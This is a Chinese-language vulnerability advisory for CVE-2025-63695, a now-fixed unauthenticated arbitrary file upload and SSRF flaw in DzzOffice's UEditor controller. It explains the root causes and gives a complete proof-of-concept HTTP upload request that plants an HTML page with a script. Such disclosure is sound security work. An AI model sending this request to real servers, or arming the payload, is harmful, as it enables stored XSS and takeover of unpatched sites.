


# DzzOffice 任意文件上传漏洞（已修复）(CVE-2025-63695)

## 概述

- 受影响版本: DzzOffice <=2.3.7
- 受影响组件: `/dzz/system/ueditor/php/controller.php`
- 漏洞类型: 任意文件上传漏洞
- 攻击前提: 无

## 高危 — 可被未授权利用的任意文件上传 / SSRF

1. 组件：UEditor 后端（文件上传 / 远程抓取）
   - 问题与类型：
     - 任意文件上传到 Web 根（getFilePath 使用 `$_SERVER['DOCUMENT_ROOT']` 拼接 `pathFormat`），config.json 的 `fileAllowFiles` 默认包含 `.html`、`.js`、`.css` 等可执行前端类型 → 可直接写入可被访问并执行的页面/脚本（持久 XSS / 挂马）。
     - `saveRemote()` 的 Content-Type 判断有逻辑问题，且未对目标 URL 做内网/回环地址限制 → SSRF（可抓取内网资源）与类型绕过。
     - 控制器缺少鉴权/入口校验（controller.php 没有 `IN_DZZ` 等保护），可被外部直接访问。
   - 可利用性：高  可以直接向 `controller.php?action=uploadfile` 发起请求上传恶意 HTML/JS（见已给的 PoC），无需登录。

这个是poc

```
POST /dzz/system/ueditor/php/controller.php?action=uploadfile HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: */*
Accept-Language: en-US,en;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryP0C6o0XkZkq9y1zU
Connection: close
Content-Length: <LENGTH>

------WebKitFormBoundaryP0C6o0XkZkq9y1zU
Content-Disposition: form-data; name="upfile"; filename="poc.html"
Content-Type: text/html

<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>POC</title>
</head>
<body>
  <script>
    alert('666');
  </script>
  </p>
</body>
</html>
------WebKitFormBoundaryP0C6o0XkZkq9y1zU--
```




